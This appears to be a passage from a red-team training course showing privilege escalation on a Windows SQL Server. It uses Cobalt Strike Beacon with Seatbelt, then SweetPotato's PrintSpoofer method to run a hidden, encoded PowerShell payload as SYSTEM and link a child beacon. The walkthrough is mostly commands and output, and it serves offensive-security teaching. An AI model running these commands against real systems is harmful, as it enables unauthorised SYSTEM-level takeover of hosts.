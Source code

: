 This instance of SQL is running as `NT Service\MSSQL$SQLEXPRESS`, which is generally configured by default on more modern SQL installers. It has a special type of privilege called `SeImpersonatePrivilege`. This allows the account to "impersonate a client after authentication".

```
beacon> getuid
[*] You are NT Service\MSSQL$SQLEXPRESS

beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe TokenPrivileges

====== TokenPrivileges ======

Current Token's Privileges

                SeAssignPrimaryTokenPrivilege:  DISABLED
                     SeIncreaseQuotaPrivilege:  DISABLED
                      SeChangeNotifyPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                      SeManageVolumePrivilege:  SE_PRIVILEGE_ENABLED
                       SeImpersonatePrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                      SeCreateGlobalPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                SeIncreaseWorkingSetPrivilege:  DISABLED
                
[*] Completed collection in 0.01 seconds
```

In a nutshell, this privilege allows the user to impersonate a token that it's able to get a handle to. However, since this account is not a local admin, it can't just get a handle to a higher-privileged process (e.g. SYSTEM) already running on the machine.

A strategy that many authors have come up with is to force a SYSTEM service to authenticate to a rogue or man-in-the-middle service that the attacker creates. This rogue service is then able to impersonate the SYSTEM service whilst it's trying to authenticate.

[SweetPotato](https://github.com/CCob/SweetPotato) has a collection of these various techniques which can be executed via Beacon's `execute-assembly` command.

```
beacon> execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc SQBFAF[...snip...]ApAA=="

SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
[+] Attempting NP impersonation using method PrintSpoofer to launch C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[+] Triggering notification on evil PIPE \\sql01/pipe/7365ffd9-7808-4a0d-ab47-45850a41d7ed
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

beacon> connect localhost 4444
[*] Tasked to connect to localhost:4444
[+] host called home, sent: 20 bytes
[+] established link to child beacon: 10.10.18.221
```
  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/sql-servers/sql01-system.png)

  

 > SweetPotato needs to be compiled in Release mode, to ensure the [NtApiDotNet](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/main/NtApiDotNet) assembly is merged.